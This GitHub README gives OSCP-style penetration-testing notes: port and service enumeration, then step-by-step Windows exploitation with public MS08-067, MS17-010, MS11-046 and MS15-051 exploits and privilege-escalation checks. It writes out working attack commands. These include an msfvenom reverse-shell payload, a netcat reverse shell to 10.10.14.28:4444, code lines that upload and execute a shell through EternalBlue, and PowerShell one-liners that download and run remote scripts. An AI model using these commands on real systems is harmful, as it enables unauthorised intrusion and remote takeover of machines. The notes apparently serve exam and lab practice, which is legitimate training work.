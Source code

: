 # oscp_methodology
OSCP Methodology


## Blackbox Enumeration
#### nmap full tcp port scan
* nmap <ip> -sV -sC -O -T4 --traceroute -p - -oA ~/path/filename

#### Ftp
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* Anonymous login
* Put files
  * if exists web service, check if web and ftp has the same path
* nmap info

#### SSH
* service -> exploit
* banner
* default creds (hydra)
* default creds with nsr (hydra)
* nmap info

#### Samba
* nmap info:
  * OS samba
  * Computer name/NetBIOS name
  * Domain name
  * Workgroup
  * OS of machine

* service (OS samba or nmap service header (139 & 445)) -> exploit
* nmap -sV -sC --open -T4  -p 139,445 --script=vuln --script-args=unsafe=1 <ip>
* enum4linux
* smbclient
 

## Exploits
### Windows
#### MS08-067
git clone https://github.com/andyacer/ms08_067.git
* configuration
  * pip install impacket
* 2 reverse options for shellcoding:
  * Use the third with 443
  * Use the third with default
  * Use second with default
  * Use second with port of third or another port
* Choose the right option of menu.
  * Find OS of machine
  * Guess lanhuage
* Needs Listener

### Windows
#### MS17-010
git clone https://github.com/worawit/MS17-010.git

##### zzz_exploit.py:
 * If needed USERNAME-"//"
 * next add the following 2 lines to below def smb
   
   smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
   
   service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
 
* custom payload:
  * msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=443 -f exe > shell.exe

* Needs Listener

##### eternalblue_exploit7.py

* use the https://github.com/nickvourd/eternalblue_win7_auto_gen in order to merge binaries nad payload
* Run the following: python MS17-010/eternalblue_exploit7.py <ip> /tmp/sc_x<arch>.bin
* Needs Listener

### Windows
#### MS11-046

* use the https://www.exploit-db.com/exploits/40564
* compile:
  * i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 (apt install mingw-w64)
* no need listener (insta run)

### Windows
#### MS15-051

* use the https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip
* Check the architecture of victim and choose the right exe
* upload to victim machine
* run the following:
  * ms15-051x64.exe "nc.exe 10.10.14.28 4444 -e cmd.exe"
* Needs Listener


## Privilege Escalation
### Windows
* systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  * searchsploit
  * google

* systeminfo
  * Architecture
  * Numbers of Proccessors
  * Domain
  * HotFixes
  * System Locale
  * Input Locale
  
 * Serlock
   * Config: Add to the last line the "Find-AllVulns"
   * Download and run Sherlock:
     ##### echo IEX(New-Object Net.WebClient).DownloadString('http://\<ip>:\<port>/Sherlock.ps1') | powershell -noprofile -
 
 * Watson
   * Find .NET latest version of victim:
     ##### dir %windir%\Microsoft.NET\Framework /AD
   * Fow older than windows 10 download zip version of watson v.1: https://github.com/rasta-mouse/Watson/tree/486ff207270e4f4cadc94ddebfce1121ae7b5437
   * Build exe to visual studio
   
* PowerUP
   * Config: add to the last line the "Invoke-AllChecks"
   * Download and run PowerUp:
     ##### echo IEX(New-Object Net.WebClient).DownloadString('http://\<ip>:\<port>/PowerUp.ps1') | powershell -noprofile -
     
